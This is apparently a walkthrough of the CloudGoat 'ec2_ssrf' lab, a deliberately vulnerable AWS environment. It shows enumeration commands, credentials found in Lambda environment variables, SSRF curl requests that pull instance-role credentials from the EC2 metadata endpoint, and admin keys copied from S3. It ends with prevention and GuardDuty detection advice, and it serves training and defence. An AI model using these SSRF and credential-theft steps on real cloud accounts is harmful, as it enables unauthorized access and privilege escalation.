

---

According to the official documentation for this scenario ([here](https://github.com/RhinoSecurityLabs/cloudgoat/tree/master/scenarios/ec2_ssrf)) the overall goal is to "Invoke the "cg-lambda-[ CloudGoat ID ]" Lambda function."


### Scenario Setup
To get everything up we just have to run:

```bash
python3 cloudgoat.py create ec2_ssrf
```

Once the build process compeletes we are provided with a set of credentials for the Solus user. We should validate that the credentials work. The get caller identity is a great command for this and is the equivilant to running `whoami`.

```bash
aws --profile solus sts get-caller-identity
```
A response should come back with letting us know that we are the Solus user.

```json
{
"UserId": "AIDASDFASFSADFBBAJMXFY3",
"Account": "121212121212",
"Arn": "arn:aws:iam::121212121212:user/solus"
}
```

---
### Solus
In the real world, we probably wouldn't just be handed these credentials. However, people make mistakes and credentials are often accidentally exposed. Let's start doing basic enumeration and see if we can determine what things we have access to. To do this we'll run the following set of commands just to poke at a few of the more common services:

```bash
aws --profile solus s3 ls
aws --profile solus ec2 describe-instances
aws --profile solus iam list-roles
aws --profile solus lambda list-functions
```

All of those commands result in an access denied error with the exception of the lambda request


The lambda call returns details for one function called `cg-lambda-cgidheuaifn6y6`. Looking at the output pictured below we can see that there is a second set or credentials stored as environment variables for this function.


Additionally, we can see that the function has a role associated with it. This means that the function more than likely has permissions to make additional calls. Before switching to the new credetntials let's grab the Lambda function and see if there are any additional details that may be of use. We can do that by running the following command:

```bash
aws --profile solus lambda get-function --function-name cg-lambda-cgidheuaifn6y6
```

This will produce the output below. Which contains a link where we can download a zipped copy of the function code.


After downloading, and extracting the code we discover it's a simple python script which returns the message `You win!`. This is the function that we need to invoke in order to 'win' the challenge. We will see if we can run the function with the Solus user in a moment, but first let's look at how we could leverage Pacu to grab the function for us.

Once Pacu is configured with Solus credentials we can run the `lambda__enum` enumeration function for the us-east-1 region. The output from that command is below:


As expected one function was discovered. When we run the `data Lambda` command in Pacu we can see that Pacu has already requested the function data for us and we have a download link to grab the code. The enum__lambda module automatically makes the list-functiosn call and the get-function call for each function discovered. This is helpful if there are a large number of functions to parse through.

Now, let's see if we can invoke the function and win this challenge with our Solus user credentials. We can invoke the function with the following command

```bash
aws --profile solus lambda invoke --function-name=cg-lambda-cgidheuaifn6y6 /tmp/outfile.txt
```

Unfortunatly for us, it looks like we are not allowed run invoke this function. We received an Access Denied error. Let's backtrack a bit and use the credentials we discovered in the function environment variables. Once they've been added to the credentials file we can confirm that they by running `sts get-caller-identity`. That command produces that out below:

```json
{
 "UserId": "AIDA5X73I5MBOZ4A4P4DG",
 "Account": "121212121212",
 "Arn": "arn:aws:iam::121212121212:user/wrex"
}
```

---

### Wrex

It appears that the credentials which were stored as environment variables for the function are credentials for the 'wrex' user account. Perhaps this user can invoke the function? Lets give it a shot.

```bash
aws --profile wrex lambda invoke --function-name=cg-lambda-cgidheuaifn6y6 /tmp/outfile.txt
```

Once again, access denied. Let's begin the enumeration process to determine what these keys are allowed to do. We can run the same commands we ran earlier to get a better idea what these credentials are allowed to do.

```bash
aws --profile wrex s3 ls
aws --profile wrex ec2 describe-instances
aws --profile wrex iam list-roles
aws --profile wrex lambda list-functions
```

All of the commands fail with the exception of the ec2 describe-instances command. Looking at the output below we can see that the ec2 instance has a public IP and according to the security group looks to be listening on port 80. We can also see the instance has an instance profile associated with it which means there are more than likely permissions that we can leverage to gain further access within aws.


---

### curl

Curling the url results initially in an error:


The error stats that URL must be a string, not undefied. Perhaps this is a parameter we can pass in? Running the following command results in the same error:

```bash
curl http://ec2-34-229-224-250.compute-1.amazonaws.com/\?URL\=asdf.com
```


What if we tried it all lower case? Perhaps the error is uppercasing the parameter and that is causing the error.

```bash
curl http://ec2-34-229-224-250.compute-1.amazonaws.com/\?url\=asdf.com
```

Awesome, we get the output pictured below. It looks like this application is proxying web traffic for us.



If that is the case then any url we enter into the url parameter this application will fetch for us. Let's see if we can talk to the meta-data service for this instance.

```bash
curl http://ec2-34-229-224-250.compute-1.amazonaws.com/\?url\=http://169.254.169.254/latest/
```

This results in the output below:


Knowing we can talk to the meta data endpoint lets see if we can pull the credentials off of this ec2 instance. We can accomplish this with the following command:

```bash
curl http://ec2-34-229-224-250.compute-1.amazonaws.com/\?url\=http://169.254.169.254/latest/meta-data/iam/security-credentials/cg-ec2-role-cgidheuaifn6y6
```

The server responds with everything we need to impersonate this instance and dig deeper into aws.


*It's worth mentioning, while we jumped straight to pulling creds from this instance the user-data endpoint can hold very valuable information.*

Using the credentials from the instance we can run the get get-caller-identity command and make sure they are valid. We get the output below:


Once again, as we do with any new set of credentials, let's see what all we can do with them.

```bash
aws --profile ec2 s3 ls
aws --profile ec2 ec2 describe-instances
aws --profile ec2 iam list-roles
aws --profile ec2 lambda list-functions
```

Much like our previous enumeration attempts, everything failed except for one call. In this case the s3 ls command was successful and we get the name for every bucket in the account:


Running the s3 ls command on one of the buckets we get the response below showing a text file called 'admin-user.txt'. This sounds potentially promising. Let's download the file.


To download the file we'll run the s3 cp command:

```bash
aws --profile ec2 s3 cp s3://cg-secret-s3-bucket-cgidheuaifn6y6/admin-user.txt /tmp/admin-user.txt
```

Once the file is copied, we can examine the data within it. The file appears to hold a set of user credentials. Based on the name of the file, it is safe to assume that these will be admin credentials. Perhaps the account owner is storing them here as a backup or perhaps this key is a honey key and as soon as we use it the organizations security team will be alerted. Only one way to find out.

```bash
aws --profile s3_cred sts get-caller-identity

{
 "UserId": "AIDA5X73WERWERGXKIKBZ",
 "Account": "121212121212",
 "Arn": "arn:aws:iam::121212121212:user/shepard"
}
```

Perfect! We now have the 'Shepard' user's credentials. Lets see if we can invoke the lambda function. We can do that with the command below, which produces the 200 output.

```bash
aws --profile shepard lambda invoke --function-name=cg-lambda-cgidheuaifn6y6 out.txt

{
 "StatusCode": 200,
 "ExecutedVersion": "$LATEST"
}
```

It would appear that the command executed successfully. Reading the output text file we're greated with `You win!` This indicates that we have completed the challenge. Poking around a bit more and it becomes clear that the Shepard user is an admin level account with full access to do anything within the account.

---

### Prevention

So, how do we prevent this. Where did the owner of this account go wrong? There are a few places where this could have be stopped. Lets dive into them.

1. The first and probably the biggest thing that whould have prevented this is: do not store credentials as unencrypted environment variables. In the case of this script the credentials were aws access keys. Those should never be there. Let the script assume a role to gain access to resources it needs. This one thing would have stopped this entire attack path dead in its tracks.
2. The ec2 instance is listening on port 80 to the entire world. Does it need to? Could it be scoped to a limited number of addresses? If so that should be done. If that isn't possible because of a business need that it exists, thats fine but we need some controls. The website should not exist in its current state. The first goal should be to work with the business to understand what they are trying to accomplish. If possible removing the proxy page would be ideal.
3. Does the ec2 instance need access to s3? From what we observed there was no real purpose for the instance to be able to directly access s3. If this is the case, can we remove the profile association? Without a profile, the instance would no longer be able to talk to aws services in the same way. This would drastically limit the impact radius if it does become compromised.
4. The s3 bucket storing a backup copy of the Shepards credentials should be removed. This should never ever exist. These credentials should be stored in a secure password vault and not in a text file in a s3 bucket.

---

### Detection

What about GuardDuty? That should detect all of this right? The short answer is sort of, but it depends on who is looking. Since we used access keys for all of our access it limits the scope of which alerts would fire. The only alert that would potentially fire for all of the activity we conducted would have been the `UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration`. When we exfiled the credentials from the Ec2 we ran all of our AWS commands from an IP address outside of AWS. This would trigger this particular alert. The `Recon:IAMUser/UserPermissions` alert may have also fired since we queried iam a few times attempting to list the roles within the account. Thats it, no other alerts would have been triggered.

So how else could we catch this activity? One way would be to base line user activity, and if anyone deviates from that fire an alert. Another possible way to detect this behavior would be to add alerts for specific API calls. If iam listRoles isn't common in your organization you could fire on that. Perhaps GetCallerIdentity is not used frequently and you could alert on that. If those don't work, building something which thresholds API calls and once a certain amount of 'potentially malicious' calls are made triggers an alert to fire. Example: ListRoles isn't bad when its alone, but if GetCallerIdentity fires, and then within 5 minutes ListRoles is, perhaps thats enough to trip an alert.

What if the Admin access keys we found were honey tokens. As soon as we tried to use those keys the security team would have been notified and the race would be on.